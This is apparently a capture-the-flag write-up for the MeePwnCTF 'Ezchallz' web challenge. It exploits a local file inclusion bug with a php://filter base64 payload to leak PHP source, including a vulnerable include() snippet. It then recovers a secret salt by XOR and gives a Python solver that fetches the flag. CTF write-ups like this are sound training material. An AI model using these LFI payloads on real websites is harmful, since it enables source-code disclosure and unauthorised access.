 # Ezchallz (crypto/web, 60 solved, 100p)

In the task we get access to a webpage, where we could register, and we get redirected so a page with some fake flag.
First thing we notice is that registration link is `http://206.189.92.209/ezchallz/?page=register`

So we try some LFI there, and it works, we can do `http://206.189.92.209/ezchallz/?page=index` for example.
So it will include any `php` file.
Not very useful, since we don't have any, but there is another trick we can test here - PHP wrappers.
We place base64 encode wrapper: `http://206.189.92.209/ezchallz/?page=php://filter/read=convert.base64-encode/resource=index`
And we can recover the source code of the index and register files.

Index has just:

```php
<?php
if(isset($_GET["page"]) && !empty($_GET["page"])) {
    $page = $_GET["page"];
    if(strpos(strtolower($page), 'secret') !== false) {
        die('No no no!');
    }
//    else if(strpos($page, 'php') !== false) {
 //       die("N0 n0 n0!");
//    }
    else {
        include($page . '.php');
    }
}
?>
```

So we can get anything but `secret.php`.
Register has more interesting stuff:

```php
<?php
error_reporting(0);

function gendirandshowflag($username) {
	include('secret.php');
	$dname = "";
	$intro = "";
	$_username = md5($username, $raw_output = TRUE);
	for($i = 0; $i<strlen($salt); $i++) {
		$dname.= chr(ord($salt[$i]) ^ ord($_username[$i]));
	};
	$dname = "users/" . bin2hex($dname);
	echo 'You have successfully register as ' . $username . '!\n';
	if ($_username === hex2bin('21232f297a57a5a743894a0e4a801fc3')) {
		$intro = "Here is your flag:" . $flag;
	}
	else {
		$intro = "Here is your flag, but I'm not sure 🤔: \nMeePwnCTF{" . md5(random_bytes(16) . $username) . "}";
	}
	mkdir($dname);
	file_put_contents($dname . '/flag.php', $intro);
	header("Location: ". $dname . "/flag.php");
}

if (isset($_POST['username'])) {
	if ($_POST['username'] === 'admin') {
		die('Username is not allowed!');
	}
	else {
		gendirandshowflag($_POST['username']);
	}
}
?>
```

We can see that:

1. Directory name we get is constructed by XORing md5 of our username with some secret salt. 
2. If the md5 of username we provide matches some random bytes, we get message `Here is your flag:` with the real flag.

We can't really break this md5 of the special user, but since we can calculate md5 of our username, we can XOR this value with directory name we got to recover the salt.
Now we know both the salt and md5 of special user, so we can calculate the real flag directory:

```python
import hashlib
import requests
from crypto_commons.generic import xor_string


def main():
    username = "test"
    plain = hashlib.md5(username).digest()
    our_dir = "b8240bb93fb5c4321196ff675b7f98eb".decode("hex")
    salt = xor_string(our_dir, plain)
    admin = xor_string(hashlib.md5("admin").digest(), salt)
    admin_dir = admin.encode("hex")
    print((requests.get("http://206.189.92.209/ezchallz/users/%s/flag.php" % admin_dir)).text)


main()
```

And we get: `MeePwnCTF{just-a-warmup-challenge-are-you-ready-for-hacking-others-challz?}`